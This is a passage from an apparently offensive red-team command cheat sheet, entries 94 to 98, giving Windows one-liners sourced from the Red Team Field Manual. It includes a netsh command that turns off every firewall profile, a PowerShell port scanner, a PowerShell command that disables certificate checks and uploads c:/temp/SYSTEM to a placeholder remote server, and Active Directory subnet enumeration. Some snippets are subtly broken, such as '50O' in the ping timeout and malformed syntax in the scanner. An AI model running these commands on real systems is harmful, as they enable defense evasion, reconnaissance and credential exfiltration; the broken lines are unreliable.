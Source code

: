 https://technet.microsoft.com/en-us/library/bb490939.aspx
__________
### 94. disable local firewall
```
netsh advfirewall set currentprofile state off;netsh advfirewall set allprofiles state off;
```
**- networking,Windows,configuration**
#### References:

https://technet.microsoft.com/en-us/library/bb490939.aspx
https://technet.microsoft.com/en-us/library/dd734783(v=ws.10).aspx
__________
### 95. powershell port scanning
```
$ports=([ports]);$ip=[ip];foreach ($port in $ports){try{$socket=New-Object System.Net.Sockets.TCPClient($ip,$port);}catch{}; if $socket -eq $NULL {echo $ip ": "$port" : Closed";}else{echo $ip ": "$port" : Open";}$socket = $NULL;}}
```
**- networking,loop,interesting,scanning,Windows,powershell**
#### References:

https://www.amazon.co.uk/Rtfm-Red-Team-Field-Manual/dp/1494295504
__________
### 96. Ping ip with timeout of 500
```
$ping = New-Object System.Net.Networkinformation.ping;$ping.Send("[ip]",50O);
```
**- networking,Windows,powershell**
#### References:

https://www.amazon.co.uk/Rtfm-Red-Team-Field-Manual/dp/1494295504
__________
### 97. Powershell upload file VIA post, script must write this out
```
powershell.exe -noprofile -noninteractive -command "[System.Net.ServicePointManager]::ServerCertificateValidationCallback{$true}$server="[$ip]/[script]";$filepath="c:/temp/SYSTEM";$http = new-object System.Net.Webclient; $response = $http.uploadFile($server,$filepath);"
```
**- networking,files,interesting,Windows,powershell**
#### References:

https://www.amazon.co.uk/Rtfm-Red-Team-Field-Manual/dp/1494295504
__________
### 98. list subnets within the sites shown
```
dsquery subnet -site [site] -o rdn
```
**- networking,enumeration,Windows**
#### References:
